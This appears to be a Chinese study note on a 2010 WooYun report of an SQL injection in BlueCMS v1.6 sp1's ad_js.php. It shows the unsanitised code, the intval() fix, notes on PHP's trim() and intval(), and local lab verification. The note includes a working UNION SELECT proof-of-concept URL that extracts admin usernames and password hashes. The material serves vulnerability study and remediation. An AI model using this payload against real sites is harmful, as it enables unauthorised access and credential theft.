BlueCMS v1.6 sp1 ad_js.php SQL注入漏
===

## 漏洞信息

下面的漏洞信息表格引用自[https://wooyun.shuimugan.com/](https://wooyun.shuimugan.com/bug/view?bug_no=141).

| 类型 | 内容 | 
|---|---|
| 编号 | 141 |
| Url | [http://www.wooyun.org/bug.php?action=view&id=141](http://www.wooyun.org/bug.php?action=view&id=141) |
| 漏洞状态 | 未联系到厂商或者厂商积极忽略 |
| 漏洞标题 | BlueCMS v1.6 sp1 ad_js.php SQL注入漏洞 |
| 漏洞类型 | [SQL注射漏洞](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bbug_type%5D=SQL%E6%B3%A8%E5%B0%84%E6%BC%8F%E6%B4%9E) |
| 厂商 | [BlueCMS](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bvendor%5D=BlueCMS) |
| 白帽子 | [CnCxzSec(衰仔)](https://wooyun.shuimugan.com/bug/index?BugSearch%5Bauthor%5D=CnCxzSec%28%E8%A1%B0%E4%BB%94%29) |
| 提交日期 | 2010-07-30 19:49:00 |
| 公开日期 | 2010-07-30 21:52:00 |
| 修复时间 | (not set) |
| 确认时间 | 0000-00-00 00:00:00 |
| Confirm Spend | -1 |
| 漏洞标签 | php+数字类型注射 注射技巧 BlueCMS |
| 关注数 | 0 |
| 收藏数 | 0 |
| 白帽评级 | 高 |
| 白帽自评rank | 20 |
| 厂商评级 |  |
| 厂商评rank | 10 |
| 漏洞简介 | BlueCMS v1.6 sp1 某页面SQL注入漏洞 |
| 漏洞细节 | 缺陷文件：ad_js.php
| 漏洞成因 | 12: `$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';` 根目录下其他他文件都做了很好的过滤，对数字型变量几乎都用了intval()做限制，唯独漏了这个文件，居然只是用了trim()去除头尾空格  19: `$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id); ` //直接代入查询。。汗。 | 
|POC | `http://localhost/cms/ad_js.php?ad_id=1%20and%201=2%20union%20select%201,2,3,4,5,concat(admin_name,0x7C0D0A,pwd),concat(admin_name,0x7C0D0A,pwd)%20from%20blue_admin%20where%20admin_id=1`  右键查看源代码得到返回数据。|
| 修复方案 | `$ad_id = !empty($_GET['ad_id']) ? intval($_GET['ad_id']) : '';`  |
| 状态信息 | 2010-07-30： 积极联系厂商并且等待厂商认领中，细节不对外公开 2010-07-30: 厂商已经主动忽略漏洞，细节向公众公开 |
| 厂商回复 | (not set) |
| 回应信息 | 未能联系到厂商或者厂商积极拒绝漏洞Rank：10 (WooYun评价) |

## 笔记：

1. trim( )函数：移除字符串两侧的空白字符或其他预定义字符

### 语法

trim(_string_,_charlist_)

| 参数 | 描述 |
|---|---|
| _string_ | 必需。规定要检查的字符串。 |
| _charlist_ | 可选。规定从字符串中删除哪些字符。如果被省略，则移除以下所有字符 |

*   "\0" - NULL
*   "\t" - 制表符
*   "\n" - 换行
*   "\x0B" - 垂直制表符
*   "\r" - 回车
*   " " - 空格

2. intval()函数：获取变量的整数值

### 语法

```
int intval ( mixed $var [, int $base = 10 ] )

```
通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。

| 参数 | 描述 |
|--|--|
| _var_ | 要转换成 integer 的数量值 |
| _base_  | 转化所使用的进制。|

> Note:
> 
> 如果 `base` 是 0，通过检测 `var` 的格式来决定使用的进制：
> 
> *   如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，
> *   如果字符串以 "0" 开始，使用 8 进制(octal)；否则，
> *   将使用 10 进制 (decimal)。


### 验证漏洞

`'`验证

![单引号判断]($res/%E5%8D%95%E5%BC%95%E5%8F%B7%E5%88%A4%E6%96%AD.png)

### 验证POC

访问POC

![验证POC]($res/%E9%AA%8C%E8%AF%81POC.png)

### 漏洞修复

trim()函数修改为intval()函数，重新访问POC

![修复]($res/%E4%BF%AE%E5%A4%8D.png)

### 其他漏洞



